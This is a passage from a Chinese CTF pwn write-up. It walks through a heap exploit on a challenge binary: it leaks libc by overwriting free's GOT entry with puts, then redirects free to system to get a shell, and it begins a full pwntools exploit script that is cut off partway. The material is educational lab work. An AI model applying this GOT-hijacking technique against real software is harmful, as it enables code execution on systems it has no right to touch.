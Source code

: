    ![image-20240729113419255](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407291134416.png)

5. 泄漏libc地址：利用chunk2向傀儡chunk3写入free函数的got地址，修改free函数的got表，指向puts函数的plt表。再继续利用chunk2向chunk3输入puts函数的got表地址，最后free掉chunk3 ==> 输出puts函数的地址（free掉chunk3后chunk3就不能任意地址写了）：

   ```python
   # 修改free的got表,指向puts函数的plt表
   edit(2,p64(elf.got["free"])) 
   edit(3,p64(elf.plt["puts"]))
   
   #利用free函数输出puts函数地址
   edit(2,p64(elf.got["puts"]))
   free(3)
   puts_addr = u32(p.recvuntil(b"\xf7")[-4:])
   libc_base = puts_addr - libc.symbols["puts"]
   success("puts_addr==>"+hex(puts_addr))
   success("libc_addr==>"+hex(libc_base))
   malloc_hook_addr = libc_base+libc.sym["__malloc_hook"]
   success("malloc_hook_addr==>"+hex(malloc_hook_addr))
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   ```

   ![image-20240729114031883](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407291140071.png)

6. 修改free函数的got表指向system函数：利用chunk7向chunk2写入free函数的got表地址，用chunk2修改free函数的got表（前面的chunk3被free掉后就不能再使用--堆指针和size都被清0）：

   ```python
   # 利用傀儡2 修改free的got表,指向puts函数的plt表
   edit(7,p64(elf.got["free"]))
   edit(2,p64(system_addr))
   ```

   ![image-20240729114513744](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407291145886.png)

7. 最后拿shell，完整的EXP：

   ```py
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   # p = remote("node5.buuoj.cn",27244)
   p = process("./pwn")
   libc = ELF('./libc-2.23_32.so')
   elf = ELF("./pwn")
   
   def add(size,content):
       p.sendlineafter(b'>>','1')
       p.sendlineafter(b':',str(size).encode())
       p.sendlineafter(b':',content)
   
   def edit(index, content):
       p.sendlineafter(b'>>','3')
       p.sendlineafter(b':',str(index).encode())
       # p.sendlineafter(':',str(len(content)))
       p.sendlineafter(b':',content)
   
   def free(index):
   ```